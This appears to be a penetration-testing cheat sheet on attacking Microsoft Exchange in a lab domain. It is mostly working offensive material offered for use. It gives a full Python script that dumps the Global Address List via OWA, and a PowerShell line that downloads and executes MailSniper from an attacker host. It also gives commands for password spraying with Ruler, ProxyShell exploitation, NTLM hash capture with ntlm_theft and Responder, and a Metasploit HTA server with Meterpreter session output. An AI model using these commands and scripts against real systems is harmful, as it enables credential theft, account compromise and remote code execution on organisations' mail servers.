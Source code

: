 # Exchange

To enumerate the version of Microsoft Exchange

```bash
curl https://10.129.132.217/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application -k | xmllint --format - | grep version 
```

### Exporting username listss

If we already have access to a computer within the domain or an email. [https://github.com/pigeonburger/global-address-list-owa](https://github.com/pigeonburger/global-address-list-owa)

<details>

<summary>Modified script to bypass SSL errors</summary>

```
# Extraction of the Global Address List (GAL) on Exchange >=2013 servers via Outlook Web Access (OWA) 
# By Pigeonburger, June 2021
# https://github.com/pigeonburger

# module import heehoo
import requests, json, argparse
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# argparser hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
parser = argparse.ArgumentParser(description="Extract the Global Address List (GAL) on Exchange 2013 servers via Outlook Web Access (OWA)")
parser.add_argument("-i", "--host", dest="hostname",
                  help="Hostname for the Exchange Server", metavar="HOSTNAME", type=str, required=True)
parser.add_argument("-u", "--username", dest="username",
                  help="A username to log in", metavar="USERNAME", type=str, required=True)
parser.add_argument("-p", "--password", dest="password",
                  help="A password to log in", metavar="PASSWORD", type=str, required=True)
parser.add_argument("-o", "--output-file", dest="output",
                  help="Specify file to output emails to (default is global_address_list.txt)", metavar="OUTPUT FILE", type=str, default="global_address_list.txt")

args = parser.parse_args()

url = args.hostname
USERNAME = args.username
PASSWORD = args.password
OUTPUT = args.output


# Start the session
s = requests.Session()
print("Connecting to %s/owa" % url)


# Get OWA landing page
# Add https:// scheme if not already added in the --host arg
try:
    s.get(url+"/owa", verify=False)
    URL = url
except requests.exceptions.MissingSchema:
    s.get("https://"+url+"/owa", verify=False)
    URL = "https://"+url


# Other URLs we need later
AUTH_URL = URL+"/owa/auth.owa"
PEOPLE_FILTERS_URL = URL + "/owa/service.svc?action=GetPeopleFilters"
FIND_PEOPLE_URL = URL + "/owa/service.svc?action=FindPeople"


# Attempt a login to OWA
login_data={"username":USERNAME, "password":PASSWORD, 'destination': URL, 'flags': '4', 'forcedownlevel': '0'}
r = s.post(AUTH_URL, data=login_data, headers={'user-agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"}, verify=False)


# The Canary is a unique ID thing provided upon a successful login that's also required in the header for the next few requests to be successful.
# Even upon an incorrect login, OWA still gives a 200 status, so we can also check if the login was successful by seeing if this cookie was set or not.
try:
    session_canary = s.cookies['X-OWA-CANARY']
except:
    exit("\nInvalid Login Details. Login Failed.")
print("\nLogin Successful!\nCanary key:", session_canary)


# Returns an object containing the IDs of all accessible address lists, so we can specify one in the FindPeople request
r = s.post(PEOPLE_FILTERS_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'GetPeopleFilters'}, data={}, verify=False).json()


# Find the Global Address List id
for i in r:
    if i['DisplayName'] == "Default Global Address List":
        AddressListId = i['FolderId']['Id']
        print("Global List Address ID:", AddressListId)
        break


# Set to None to return all emails in the list (this is the search term for the FindPeople request)
query = None


# Set the max results for the FindPeople request.
max_results = 99999


# POST data for the FindPeople request
peopledata = {
    "__type": "FindPeopleJsonRequest:#Exchange",
    "Header": {
        "__type": "JsonRequestHeaders:#Exchange",
        "RequestServerVersion": "Exchange2013",
        "TimeZoneContext": {
            "__type": "TimeZoneContext:#Exchange",
            "TimeZoneDefinition": {
                "__type": "TimeZoneDefinitionType:#Exchange",
                "Id": "AUS Eastern Standard Time"
            }
        }
    },
    "Body": {
        "__type": "FindPeopleRequest:#Exchange",
        "IndexedPageItemView": {
            "__type": "IndexedPageView:#Exchange",
            "BasePoint": "Beginning",
            "Offset": 0,
            "MaxEntriesReturned": max_results
        },
        "QueryString": query,
        "ParentFolderId": {
            "__type": "TargetFolderId:#Exchange",
            "BaseFolderId": {
                "__type": "AddressListId:#Exchange",
                "Id": AddressListId
            }
        },
        "PersonaShape": {
            "__type": "PersonaResponseShape:#Exchange",
            "BaseShape": "Default"
        },
        "ShouldResolveOneOffEmailAddress": False
    }
}


# Make da request.
r = s.post(FIND_PEOPLE_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'FindPeople'}, data=json.dumps(peopledata), verify=False).json()


# Parse out the emails, print them and append them to a file.
userlist = r['Body']['ResultSet']

with open(OUTPUT, 'a+') as outputfile:
    for user in userlist:
        email = user['EmailAddresses'][0]['EmailAddress']
        outputfile.write(email+"\n")
        print(email)

print("\nFetched %s emails" % str(len(userlist)))
print("Emails written to", OUTPUT)
```

</details>

```bash
python3 emailextract.py -i exch01.zencorp.local -u zen@zencorp.ocal -p 'pass@123'
```

#### Or use windows

PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.228:8000/MailSniper.ps1') PS C:\Tools> Get-GlobalAddressList -ExchHostname exch01.zencorp.local -Username zen -Password 'pass@123' -OutFile globaladdresslist.txt

### <mark style="color:yellow;">Password Spray</mark>

Use Ruler for password Spray

```bash
./ruler-linux64 --domain zencorp.local --insecure brute --users global_address_list.txt --passwords passwords.txt --verbose -a 4
```

### <mark style="color:yellow;">ProxyShell</mark>

```bash
proxyshell.py -u https://10.129.230.42/ -e Administrator@zencorp.local 
```

Or use metasploit

```bash
use exploit/windows/http/exchange_proxyshell_rce
```

### <mark style="color:yellow;">Phishing Attacks</mark>

Generate a htm file with ntlm\_theft, create htm file, attach in email and capture in Responder

```bash
# Create html file
python3 ntlm_theft.py -g htm -s 10.10.14.80 -f students

# Responder
sudo responder -I tun0
```

#### Arbitrary File Execution

With [https://www.shellterproject.com/](https://www.shellterproject.com/) its possible to take a legit executable and inject a malicious code to get a reverse shell.

#### Create a HTA file

```bash
# It will create and host the .hta file
msfconsole -x "use exploit/windows/misc/hta_server; set LHOST 10.10.14.207; set LPORT 8443; set SRVHOST 10.10.14.207; run -j"

# Send the link and once clicked
[*] Meterpreter session 1 opened (10.10.14.207:8443 -> 10.129.231.81:62367) at 2024-08-13 17:52:01 -0400
```
